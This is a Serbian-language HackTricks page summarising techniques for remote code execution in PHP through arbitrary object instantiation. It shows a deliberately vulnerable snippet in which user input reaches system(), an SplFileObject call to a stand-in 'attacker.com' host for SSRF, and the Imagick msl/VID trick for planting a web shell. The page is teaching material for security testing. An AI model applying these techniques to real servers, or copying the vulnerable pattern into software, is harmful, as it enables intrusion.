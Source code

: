 # PHP - RCE zloupotreba kreiranja objekata: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

Ovo je u suštini sažetak [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Uvod

Kreiranje novih proizvoljnih objekata, kao što je `new $_GET["a"]($_GET["a"])`, može dovesti do Remote Code Execution (RCE), kako je detaljno opisano u [**writeup-u**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Ovaj dokument ističe različite strategije za postizanje RCE.

## RCE putem prilagođenih klasa ili automatskog učitavanja

Sintaksa `new $a($b)` se koristi za instanciranje objekta gde **`$a`** predstavlja ime klase, a **`$b`** je prvi argument prosleđen konstruktoru. Ove promenljive mogu biti dobijene iz korisničkih unosa kao što su GET/POST, gde mogu biti stringovi ili nizovi, ili iz JSON-a, gde se mogu pojaviti kao druge vrste. 

Razmotrite kod ispod:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
U ovom slučaju, postavljanje `$a` na `App` ili `App2` i `$b` na sistemsku komandu (npr., `uname -a`) rezultira izvršavanjem te komande.

**Autoloading funkcije** mogu biti iskorišćene ako takve klase nisu direktno dostupne. Ove funkcije automatski učitavaju klase iz fajlova kada su potrebne i definišu se koristeći `spl_autoload_register` ili `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Ponašanje automatskog učitavanja varira sa verzijama PHP-a, nudeći različite RCE mogućnosti.

## RCE putem ugrađenih klasa

U nedostatku prilagođenih klasa ili automatskih učitavača, **ugrađene PHP klase** mogu biti dovoljne za RCE. Broj ovih klasa kreće se između 100 i 200, u zavisnosti od verzije PHP-a i ekstenzija. Mogu se nabrojati koristeći `get_declared_classes()`.

Konstruktori od interesa mogu se identifikovati putem refleksije API-ja, kao što je prikazano u sledećem primeru i linku [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE putem specifičnih metoda uključuje:**

### **SSRF + Phar deserializacija**

Klasa `SplFileObject` omogućava SSRF kroz svoj konstruktor, omogućavajući veze sa bilo kojim URL-om:
```php
new SplFileObject('http://attacker.com/');
```
SSRF može dovesti do napada deserializacije u verzijama PHP-a pre 8.0 koristeći Phar protokol.

### **Iskorišćavanje PDO-a**

Konstruktor klase PDO omogućava povezivanje sa bazama podataka putem DSN stringova, potencijalno omogućavajući kreiranje fajlova ili druge interakcije:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Verzije PHP-a do 5.3.22 i 5.4.12 bile su podložne XXE napadima putem `SoapClient` i `SimpleXMLElement` konstruktora, u zavisnosti od verzije libxml2.

## RCE putem Imagick ekstenzije

U analizi **zavisnosti projekta**, otkriveno je da se **Imagick** može iskoristiti za **izvršavanje komandi** instanciranjem novih objekata. Ovo predstavlja priliku za iskorišćavanje ranjivosti.

### VID parser

Identifikovana je sposobnost VID parsera da piše sadržaj na bilo koju određenu putanju u datotečnom sistemu. To može dovesti do postavljanja PHP shelle u direktorijum koji je dostupan putem veba, ostvarujući Remote Code Execution (RCE).

#### VID Parser + Upload fajlova

Napomenuto je da PHP privremeno skladišti otpremljene fajlove u `/tmp/phpXXXXXX`. VID parser u Imagick-u, koristeći **msl** protokol, može obraditi džoker znakove u putanjama fajlova, olakšavajući prenos privremenog fajla na odabrano mesto. Ova metoda nudi dodatni pristup za postizanje proizvoljnog pisanja fajlova unutar datotečnog sistema.

### PHP Crash + Brute Force

Metoda opisana u [**originalnom izveštaju**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) uključuje otpremanje fajlova koji izazivaju pad servera pre brisanja. Primenom brute force-a na ime privremenog fajla, postaje moguće da Imagick izvrši proizvoljan PHP kod. Međutim, ova tehnika se pokazala efikasnom samo u zastareloj verziji ImageMagick-a.

## Reference

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
